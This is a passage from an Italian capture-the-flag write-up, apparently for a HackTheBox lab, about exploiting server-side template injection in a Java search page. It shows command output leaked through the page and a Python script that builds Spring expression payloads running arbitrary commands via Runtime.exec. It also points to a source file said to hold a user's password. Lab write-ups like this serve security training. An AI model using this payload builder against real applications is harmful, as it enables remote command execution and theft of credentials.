 ---> OUTPUT: ## You searched for: Apache Maven What is it? ----------- Maven is a software project management and comprehension tool. Based on the concept of a Project Object Model (POM), Maven can manage a project's build, reporting and documentation from a central piece of information. Documentation ------------- The most up-to-date documentation can be found at https://maven.apache.org/. Release Notes ------------- The full list of changes can be found at https://maven.apache.org/docs/history.html. System Requirements ------------------- JDK: 1.7 or above (this is to execute Maven - it still allows you to build against 1.3 and prior JDK's). Memory: No minimum requirement. Disk: Approximately 10MB is required for the Maven installation itself. In addition to that, additional disk space will be used for your local Maven repository. The size of your local repository will vary depending on usage but expect at least 500MB. Operating System: Windows: Windows 2000 or above. Unix based systems (Linux, Solaris and Mac OS X) and others: No minimum requirement. Installing Maven ---------------- 1) Unpack the archive where you would like to store the binaries, e.g.: Unix-based operating systems (Linux, Solaris and Mac OS X) tar zxvf apache-maven-3.x.y.tar.gz Windows unzip apache-maven-3.x.y.zip 2) A directory called "apache-maven-3.x.y" will be created. 3) Add the bin directory to your PATH, e.g.: Unix-based operating systems (Linux, Solaris and Mac OS X) export PATH=/usr/local/apache-maven-3.x.y/bin:$PATH Windows set PATH="c:\program files\apache-maven-3.x.y\bin";%PATH% 4) Make sure JAVA_HOME is set to the location of your JDK 5) Run "mvn --version" to verify that it is correctly installed. For complete documentation, see https://maven.apache.org/download.html#Installation Licensing --------- Please see the file called LICENSE. Maven URLS ---------- Home Page: https://maven.apache.org/ Downloads: https://maven.apache.org/download.html Release Notes: https://maven.apache.org/docs/history.html Mailing Lists: https://maven.apache.org/mailing-lists.html Source Code: https://gitbox.apache.org/repos/asf/maven.git Issue Tracking: https://issues.apache.org/jira/browse/MNG Wiki: https://cwiki.apache.org/confluence/display/MAVEN/ Available Plugins: https://maven.apache.org/plugins/

## There are 0 results for your search

13) Ho costruito uno script che digito un comando e me lo trasforma nel payload:
comm = "ls -all /opt/credit-score"
build = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime()"
first_ascii = str(ord(comm[0]))
build += ".exec(T(java.lang.Character).toString(" + first_ascii + ")"
comm = comm[1:]
for letter in range(0, len(comm)):
    convert = str(ord(comm[letter]))
    build += ".concat(T(java.lang.Character).toString(" + convert + "))"
    letter += 1

build += ").getInputStream())}"
print(build)

14) In questa directory:
/opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java
C'è la password di woodenk guarda il file: 
You searched for: package com.panda_search.htb.panda_search;

import java.util.ArrayList;
import java.io.IOException;
import java.sql.*;
import java.util.List;
import java.util.ArrayList;
import java.io.File;
import java.io.InputStream;
import java.io.FileInputStream;
